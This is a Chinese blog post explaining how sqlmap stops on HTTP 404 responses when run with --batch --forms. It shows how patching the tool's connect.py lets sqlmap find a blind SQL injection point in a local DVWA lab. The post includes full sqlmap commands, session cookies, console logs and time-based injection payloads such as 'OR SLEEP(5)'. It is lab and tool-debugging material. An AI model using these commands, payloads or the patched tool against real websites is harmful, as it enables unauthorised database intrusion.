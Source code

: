 ```yaml
---
layout:     post
title:      sqlmap对状态码404处理的bug
date:       2017-08-20
summary:    sqlmap对状态码404处理的bug
categories: web
tags:
 - sqlmap
 - python
---
```


### About

sqlmap对页面遇到404响应码后直接抛出一个异常并退出sqlmap不再进行后续的paylaod测试,在用sqlmap测试sql注入点的时候,一
般用到`--batch`参数来节省时间,这种情况下sqlmap有一处对http状态码404的处理不当导致无法测出注入点的bug

### Detail

在爬虫时get请求的url可轻易爬到,但是post请求的url及post的数据的取得需要探测html中有没有表单相关的关键字,并通过表单
来构造post参数的值并提交来获取后续返回内容,如下例中详情:

安装dvwa设置level=low,测试`SQL Injection(Blind)`这一项时,参数是通过表单来提交的,点击`submit`提交后会将输入框`User
ID`中的内容以get请求发送到服务器,例如在文本框中输入1则浏览器将对应访问`http://192.168.8.190/dvwa/vulnerabilities/sqli_blind/?id=1&Submit=Submit#`

<img src="https://raw.githubusercontent.com/3xp10it/pic/master/sqlmap404bug-1.png">

尝试用sqlmap跑出这个注入点,语句如下:

    sqlmap -u "http://192.168.8.190/dvwa/vulnerabilities/sqli_blind/?id=1&Submit=Submit#" --cookie='PHPSESSID=glgav33fgc0l1hoikg5f267j51;security=low'

这样是可以跑出来的,但是要提高效率用工具自动发现这个漏洞时,一般这样用sqlmap:

    sqlmap -u "http://192.168.8.190/dvwa/vulnerabilities/sqli_blind/?id=&Submit=Submit#" --forms -v 3 --cookie='...'

由于这里的id参数通过爬虫无法获得,因为这个id参数的值是通过表单提交的,爬虫最多可得到的url为:
    
    http://192.168.8.190/dvwa/vulnerabilities/sqli_blind/?id=&Submit=Submit#

上图中的`Submit`按钮对应的应该是js处理的动作,js将表单通过get请求发送到服务器,这种情况下,需要用selenium+phantomjs
来获得上面的url(或者使用sqlmap中的--forms参数来捕获这样的表单),而就算得到了url,由于这个url中的`id=`,也即id值为空,
这种情况下,sqlmap的--batch参数的处理是随机赋值给id并测试各种payload(eg,id=1389),然而dvwa中的这个页面在服务器上的
处理并不一般,如果用户提交的id参数在服务器上没有查询到,服务器会响应404状态码(可能一般waf也会这样做),而sqlmap遇到
404状态码,直接就抛出异常并退出了,这样导致无法用sqlmap的--batch参数测出这个sql注入点

其实如果用selenium+phantomjs得到了url`http://192.168.8.190/dvwa/vulnerabilities/sqli_blind/?id=&Submit=Submit#`后
如果服务器正常响应查询(这里的dvwa不正常响应,对查不到的统一返回404状态码),用sqlmap是可以检测到这种不带具体值的参数
类型url的注入点的,但是要设置--risk=3,默认的sqlmap的risk值为1,为1时sqlmap不会测试`' or [sqli] and '1'='1`(要测出不
带参数值的参数的注入点则要通过or来测试),也即要发挥sqlmap的功能最好设置`--batch --risk=3 --forms`.试试直接用这种方
法测试上面的注入点(在dvwa中对应的页面为`http://192.168.8.190/dvwa/vulnerabilities/sqli_blind/`):

```
/tmp/sqlmap [master] » python2 sqlmap.py -u "192.168.8.190/dvwa/vulnerabilities/sqli_blind/" --forms -v 3 --cookie='PHPSESSID=glgav33fgc0l1hoikg5f267j51;security=low' --risk 3 --batch
        ___
       __H__
 ___ ___[']_____ ___ ___  {1.1.8.6#dev}
|_ -| . [(]     | .'| . |
|___|_  ["]_|_|_|__,|  _|
      |_|V          |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting at 14:40:30

[14:40:30] [DEBUG] cleaning up configuration parameters
[14:40:30] [DEBUG] setting the HTTP timeout
[14:40:30] [DEBUG] setting the HTTP Cookie header
[14:40:30] [DEBUG] creating HTTP requests opener object
[14:40:30] [DEBUG] resolving hostname '192.168.8.190'
[14:40:30] [INFO] testing connection to the target URL
[14:40:30] [DEBUG] declared web page charset 'utf-8'
[14:40:30] [INFO] searching for forms
[14:40:30] [DEBUG] initializing the knowledge base
[#1] form:
GET http://192.168.8.190:80/dvwa/vulnerabilities/sqli_blind/?id=&Submit=Submit
Cookie: PHPSESSID=glgav33fgc0l1hoikg5f267j51;security=low
do you want to test this form? [Y/n/q]
> Y
[14:40:30] [DEBUG] used the default behaviour, running in batch mode
Edit GET data [default: id=&Submit=Submit]: id=&Submit=Submit
[14:40:30] [DEBUG] used the default behaviour, running in batch mode
do you want to fill blank fields with random values? [Y/n] Y
[14:40:30] [DEBUG] used the default behaviour, running in batch mode
[14:40:30] [INFO] resuming back-end DBMS 'mysql'
[14:40:30] [INFO] using '/var/root/.sqlmap/output/results-08202017_0240pm.csv' as the CSV results file in multiple targets mode
[14:40:30] [DEBUG] resolving hostname '192.168.8.190'
[14:40:30] [DEBUG] declared web page charset 'utf-8'
[14:40:30] [CRITICAL] page not found (404)
[14:40:30] [WARNING] HTTP error codes detected during run:
404 (Not Found) - 1 times
[14:40:30] [INFO] you can find results of scanning in multiple targets mode inside the CSV file '/var/root/.sqlmap/output/results-08202017_0240pm.csv'

[*] shutting down at 14:40:30
```

发现sqlmap跑不出来,尝试修改sqlmap代码,结果中有关键字`page not found (404)`,于是定位相关代码:

    cd /tmp/sqlmap && grep -r "page not found" .

结果如下:

```
./lib/request/connect.py:                    errMsg = "page not found (%d)" % code
./lib/request/connect.py:                    debugMsg = "page not found (%d)" % code
./lib/utils/crawler.py:                    if "page not found" in getSafeExString(ex):
```

于是修改./lib/request/connect.py中代码:

```
elif ex.code == httplib.NOT_FOUND:
    if raise404:
        errMsg = "page not found (%d)" % code
        raise SqlmapConnectionException(errMsg)
    else:
        debugMsg = "page not found (%d)" % code
        singleTimeLogMessage(debugMsg, logging.DEBUG)
```

将其中的raise SqlmapConnectionException(errMsg)注释掉后再重新用刚才的sqlmap语句测试可测出这个注入点,详情如下:

```
/tmp/sqlmap [master●] » python2 sqlmap.py -u "192.168.8.190/dvwa/vulnerabilities/sqli_blind/" --forms -v 3 --cookie='PHPSESSID=glgav33fgc0l1hoikg5f267j51;security=low' --risk 3 --batch
[14:48:41] [DEBUG] checking for filtered characters
[14:48:41] [PAYLOAD] OOFt' OR 6597=IF((3988>3987),SLEEP(5),6597) AND 'sIjt'='sIjt
GET parameter 'id' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
[14:49:06] [DEBUG] used the default behaviour, running in batch mode
sqlmap identified the following injection point(s) with a total of 146 HTTP(s) requests:
    ---
Parameter: id (GET)
    Type: AND/OR time-based blind
    Title: MySQL >= 5.0.12 OR time-based blind
    Payload: id=OOFt' OR SLEEP(5) AND 'CaKs'='CaKs&Submit=Submit
    Vector: OR [RANDNUM]=IF(([INFERENCE]),SLEEP([SLEEPTIME]),[RANDNUM])
    ---
do you want to exploit this SQL injection? [Y/n] Y
[14:49:06] [DEBUG] used the default behaviour, running in batch mode
[14:49:06] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian
web application technology: Apache 2.4.25
back-end DBMS: MySQL >= 5.0.12
[14:49:06] [WARNING] HTTP error codes detected during run:
404 (Not Found) - 131 times
[14:49:06] [INFO] you can find results of scanning in multiple targets mode inside the CSV file
'/var/root/.sqlmap/output/results-08202017_0246pm.csv'

[*] shutting down at 14:49:06
```
